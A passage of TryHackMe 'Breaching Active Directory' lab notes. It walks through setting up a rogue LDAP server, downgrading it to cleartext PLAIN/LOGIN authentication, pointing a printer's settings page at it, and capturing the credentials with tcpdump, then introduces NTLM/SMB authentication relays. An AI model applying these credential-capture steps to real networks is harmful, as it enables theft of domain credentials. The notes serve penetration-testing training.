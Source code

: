 ```C
sudo dpkg-reconfigure -p low slapd
```

- Press "No" when requested if you want to skip server configuration
- **DNS Domain Name:** the target domain name in this example `za.tryhackme.com`
- **Organization Name:** same as above.
- Provide a password.
- **Ensure the database is not removed when purged:** "No"
- **Move old database:** "Yes"

**Downgrading our LDAP server to accept PLAIN and LOGIN authentication:**

Create a file called: `olcSaslSecProps.ldif`

```C
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

- **olcSaslSecProps:** Specifies the SASL security properties
- **noanonymous:** Disables mechanisms that support anonymous login
- **minssf:** Specifies the minimum acceptable security strength with 0, meaning no protection.

**Use the ldif file and patch our server:**

```C
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```

Verify your rogue LDAP server's configuration has been applied using the following command:

```C
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```

Your rogue LDAP server has now been configured. When we click the "Test Settings" at [hxxp://printer.za.tryhackme[.]com/settings.aspx](http://printer.za.tryhackme.com/settings.aspx), the authentication will occur in clear text and we can capture this by using TCPdump:

```C
sudo tcpdump -SX -i breachad tcp port 389
```

**Don't forget to change the Server IP to your Server Attack IP**.

![Breaching Active Directory-4.png](/img/user/cards/red-team/images/Breaching%20Active%20Directory-4.png)
## Authentication Relays
---
Earlier, the NTLM authentication used on a web is demonstrated, this time you will look at this authentication mechanism in the network's perspective. **The NTLM network challenge/response used when a Windows client authenticates to a file/share (SMB)**. It's what the network sees when Kerberos isn't used.

Read [[cards/active-directory/Server Message Block (SMB)\|Server Message Block (SMB)]]
